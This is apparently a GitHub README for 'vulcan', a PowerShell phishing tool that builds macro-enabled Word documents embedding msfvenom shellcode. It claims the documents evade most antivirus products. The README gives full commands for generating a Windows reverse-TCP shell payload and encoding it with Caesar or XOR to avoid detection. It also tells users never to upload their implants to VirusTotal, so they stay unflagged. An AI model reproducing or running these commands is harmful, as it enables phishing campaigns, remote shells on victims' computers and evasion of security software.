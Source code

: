 # vulcan

[![Language](https://img.shields.io/badge/Lang-PowerShell-blue.svg)](https://docs.microsoft.com/en-gb/powershell/)
[![License](https://img.shields.io/badge/License-BSD%203-red.svg)](https://opensource.org/licenses/BSD-3-Clause)

## A `PowerShell` script that simplifies life and therefore... phishing. 🎣

A `PowerShell` script to automate the creation of consitent and efficient macro-enabled `Word` documents. At the time of writing, the `indirect` template yields great results at evading most AVs, including `Windows Defender` in some cases.

This `PowerShell` script can be viewed as *kind of* a third-party add-on to [MSFVenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/) - made possible thanks to [Windows Subsystem for Linux](https://docs.microsoft.com/en-us/windows/wsl/install) - that leverage templates to quickly and easily - *encoded* - create `Word` implants.

Users/stargazers are greatly encouraged toward contributing to improving and extending this project. 🐺

### ⚠️ Do not be a dummy... NEVER submit any implant to VirusTotal. 🤢

## Features

- Decoding routines/functions (`.\assets\decoders`) -> **do not hesitate to submit new templates**.
- Piping of shellcodes allowing for complex transformations in order to evade AVs.
- `Visual Basic` templating (`.\assets\templates`) -> **do not hesitate to submit new templates**.
- Work-around `Visual Basic` line-continuation limitations using `-Treshold`.

## Requirements

- [Windows Subsystem for Linux](https://docs.microsoft.com/en-us/windows/wsl/install) with [MSFVenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/) installed.

## Installation

1. Clone this repository:

    ```powershell
    git clone https://github.com/aress31/vulcan
    cd vulcan
    ```

2. Load the `PowerShell` scripts:

    ```powershell
    Import-Module -Name .\Vulcan.psm1
    ```

3. (Optional) List available commands:

    ```powershell
    Get-Module -Name vulcan | select -ExpandProperty ExportedFunctions
    ```

4. Run `vulcan`:

    ```powershell
    wsl --exec msfvenom -p windows/shell/reverse_tcp LHOST=192.168.0.101 LPORT=443 EXITFUNC=thread -f hex | `
        Invoke-Vulcan -OutputDirectory ".\winwords\" -Template ".\assets\templates\indirect.vba"
    ```

> Although obvious, `windows/shell/reverse_tcp LHOST=192.168.0.101 LPORT=443 EXITFUNC=thread` is a placeholder in the above example... 🙄

## Usage

`Get-Help -Name Invoke-Vulcan` is your friend... Your best friend is `Get-Help -Name Invoke-Vulcan -Detailed`. Nonetheless, `Invoke-Vulcan` must be fed a `hex`-formatted shellcode. This can be achieved with:

```powershell
Get-Content -Path $ShellCode | Invoke-Vulcan ...
```

```powershell
wsl --exec msfvenom ... -f hex | Invoke-Vulcan ...
```

### Examples

- Embed a `plain` shellcode:

    ```powershell
    wsl --exec msfvenom -p windows/shell/reverse_tcp LHOST=192.168.0.101 LPORT=443 EXITFUNC=thread -f hex | `
        Invoke-Vulcan -OutputDirectory ".\winwords\" -Template ".\assets\templates\indirect.vba"
    ```

- Embed a `Caesar`-encoded shellcode:

    ```powershell
    wsl --exec msfvenom -p windows/shell/reverse_tcp LHOST=192.168.0.101 LPORT=443 EXITFUNC=thread -f hex | `
        Invoke-Caesar -Key 5 | `
            Invoke-Vulcan -OutputDirectory ".\winwords\" -Template ".\assets\templates\indirect.vba" -Decoder xor -DecoderPath ".\assets\decoders\caesar.vba" -Key 5 -Verbose
    ```

- Embed a `XOR`-encoded shellcode:

    ```powershell
    wsl --exec msfvenom -p windows/shell/reverse_tcp LHOST=192.168.0.101 LPORT=443 EXITFUNC=thread -f hex | `
        Invoke-XOR -Key "Star&WatchThisRepository" | `
            Invoke-Vulcan -OutputDirectory ".\winwords\" -Template ".\assets\templates\indirect.vba" -Decoder xor -DecoderPath ".\assets\decoders\xor.vba" -Key "Star&WatchThisRepository" -Verbose
    ```

    > [!WARNING]
    > The length of the key must be shorted than the shellcode.

> Although obvious, `windows/shell/reverse_tcp LHOST=192.168.0.101 LPORT=443 EXITFUNC=thread` is a placeholder in the above examples... 🙄

## Sponsor 💓

If you want to support this project and appreciate the time invested in developping, maintening and extending it; consider donating toward my next (cup of coffee ☕/lamborghini 🚗) - as **a lot** of my **personal time** went into creating this project. 😪

It is easy, all you got to do is press the `Sponsor` button at the top of this page or alternatively [click this link](https://github.com/sponsors/aress31). 😁

## Reporting Issues

Found a bug 🐛? I would love to squash it!

Please report all issues on the GitHub [issues tracker](https://github.com/aress31/vulcan/issues).

## Contributing

You would like to contribute to better this project? 🤩

Please submit all `PRs` on the GitHub [pull requests tracker](https://github.com/aress31/vulcan/pulls).

## Acknowledgements

Give to Caesar (no pun intended 🙄) what belongs to Caesar:

- [MSFVenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/)

## License

`vulcan` is primarily distributed under the terms of the `BSD 3`.

See [LICENSE](./LICENSE) for details.